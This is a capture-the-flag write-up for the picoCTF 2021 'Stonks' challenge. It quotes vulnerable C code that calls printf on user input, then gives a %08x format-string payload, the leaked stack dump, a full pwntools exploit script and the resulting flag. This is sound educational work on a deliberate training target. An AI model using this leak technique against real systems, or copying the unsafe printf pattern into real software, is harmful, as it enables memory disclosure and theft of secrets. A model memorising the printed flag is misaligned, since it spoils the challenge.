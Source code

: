 # Stonks - picoCTF 2021 - CMU Cybersecurity Competition
Binary Exploitation, 20 Points

## Description


![Stonks.JPG](images/Stonks.JPG)
 
Attached file [vuln.c](vuln.c)

## Stonks Solution

The attached file ```vuln.c``` contains the following function:
```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

The function above copy the flag to ```api_buf``` buffer using ```fgets(api_buf, FLAG_BUFFER, f);```.

Then, The function ask for "API token":
```c
...
printf("What is your API token?\n");
scanf("%300s", user_buf);
...
printf(user_buf);
```

And we can see the user input printed by ```printf(user_buf);```, It's mean we can use [Format String Vuln.](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf) to print ```api_buf``` buffer from stack using ```%08x``` - which print one value from stack.

So let's try it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ nc mercury.picoctf.net 33411 
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Buying stonks with token:
09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0
Portfolio as of Tue Mar 30 22:43:14 UTC 2021


3 shares of FCLC
1 shares of YBEH
9 shares of RU
63 shares of FTIA
92 shares of F
333 shares of Z
7 shares of XOOJ
87 shares of BV
89 shares of WU
822 shares of KP
Goodbye!
```
So as we can see we get the following hex bytes:```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0``` which is hex values from stack.

Let's write python code using ```pwntools``` to unpack the hex values from stack into string to get our flag.

So first, connect to server, send the payload and split the response by ```\n``` to get only hex bytes:
```python
from pwn import *

p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

```

Now, ```flag_bytes``` contains ```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0```.

We can split it into 8 bytes using the following function:
```python
def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]
```

It will return:
```python
['09a3b3b0', '0804b000', '080489c3', 'f7f9fd80', 'ffffffff', '00000001', '09a39160', 'f7fad110', 'f7f9fdc7', '00000000', '09a3a180', '00000004', '09a3b390', '09a3b3b0', '6f636970', '7b465443', '306c5f49', '345f7435', '6d5f6c6c', '306d5f79', '5f79336e', '63343261', '36613431', 'ffa8007d', 'f7fdaaf8', 'f7fad440', 'c27a0f00', '00000001', '00000000', 'f7e3cbe9', 'f7fae0c0']
```

Now, we need to unpack the bytes using ```p32``` and to filter only the printable characters that contains our flag using the following code:
```python
def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")
```

Write all together:
```python
from pwn import *

def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]

def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")


p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

flag_split_by_8_bytes=split_to_8_bytes_arr(flag_bytes)
print_flag_from_hex_arr(flag_split_by_8_bytes)
```

Run it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ python stonks.py 
[+] Opening connection to mercury.picoctf.net on port 33411: Done
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Sending command: 1

Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
[*] Closed connection to mercury.picoctf.net port 33411
```

```Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}```.
